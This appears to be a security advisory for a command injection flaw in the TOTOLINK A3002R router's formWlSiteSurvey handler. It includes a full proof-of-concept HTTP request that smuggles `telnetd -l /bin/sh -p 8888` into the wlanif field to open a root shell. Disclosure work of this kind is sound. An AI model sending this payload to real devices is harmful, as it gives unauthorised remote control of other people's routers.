


# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A3002R

Version:V1.1.1-B20200824.0128

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an command Injection vulnerability TOTOLINK router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `boa` binary:

In `formWlSiteSurvey` function, `wlanif` is directly passed by the attacker, so we can control the `wlanif` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `wlanif` as **`telnetd -l /bin/sh -p 8888`** , and the router will excute it,such as:

```http
POST /boafrm/formWlSiteSurvey HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/wirelessScan_tbl.htm
Upgrade-Insecure-Requests: 1

refresh=&submit-url=%2FwirelessScan_tbl.htm&connect=pjqwudi&wlanif=`telnetd -l /bin/sh -p 8888`&select=sel-1&wlan_idx=1&ifname=wlan0
```


## Result

Get a shell!

<div  align="center"></div>

